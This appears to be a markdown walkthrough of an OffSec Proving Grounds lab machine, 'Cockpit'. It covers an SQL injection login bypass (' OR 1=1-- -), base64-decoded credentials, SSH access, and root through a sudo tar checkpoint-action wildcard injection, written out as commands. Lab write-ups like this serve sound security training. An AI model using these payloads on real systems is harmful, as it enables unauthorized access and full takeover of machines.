





# 🧠 Cockpit – Penetration Test Walkthrough

## 📌 Overview
- Target: Linux Machine (OffSec Proving Grounds)
- Objective: Gain root access
- Methodology: Enumeration → Exploitation → Privilege Escalation

---
## 1. nmap Scan

## 2. sql injection

## 3. login Bypass 

## 4. base64 Credentials
1[Base64](base64-decoded.png)

## 5. SSH ACCESS

## 6. Privilege escalation

## 7. Root

- 80 (HTTP)
- 9090 (Cockpit)

📸 Screenshot:  
Nmap Scan

---

## 🌐 Web Exploitation

- Navigated to web app on port 80
- Found login page
- Identified SQL error → confirmed MySQL backend
- Used SQL injection to bypass authentication

Example payload:
sql ' OR 1=1-- - 

📸 Screenshots:  
SQL Error  
Login Bypass

---

## 🔑 Credential Access

- Found credentials encoded in base64
- Decoded them:

bash echo "<encoded_string>" | base64 -d 

Recovered credentials:
- james:******
- cameron:******

📸 Screenshot:  
Base64 Decode

---

## 🖥️ Initial Access (SSH)

Used recovered credentials to gain shell:

bash ssh james@<TARGET-IP> 

📸 Screenshot:  
SSH Access

---

## 📈 Privilege Escalation

Checked sudo permissions:

bash sudo -l 

Found:
text (ALL) NOPASSWD: /usr/bin/tar 

👉 Identified tar as exploitable via GTFOBins

### Exploit:

bash echo 'bash -p' > shell.sh chmod +x shell.sh  echo "" > "--checkpoint=1" echo "" > "--checkpoint-action=exec=sh shell.sh"  sudo tar -czvf /tmp/backup.tar.gz * 

---

## 👑 Root Access

Spawned root shell:

bash bash -p 

Verified:

bash whoami root 

📸 Screenshot:  
Root

---

## 🧠 Key Takeaways

- SQL errors can reveal injection points
- Always test login functionality for SQL injection
- Base64 encoding is commonly used to hide credentials
- sudo -l is critical for privilege escalation
- GTFOBins is essential for exploiting misconfigured binaries

---

## 🔥 Attack Chain Summary

Web App → SQL Injection → Auth Bypass → Credentials → SSH → sudo tar → Root

---

## ⚠️ Notes

- Flags have been omitted
- Focus is on methodology and exploitation proces
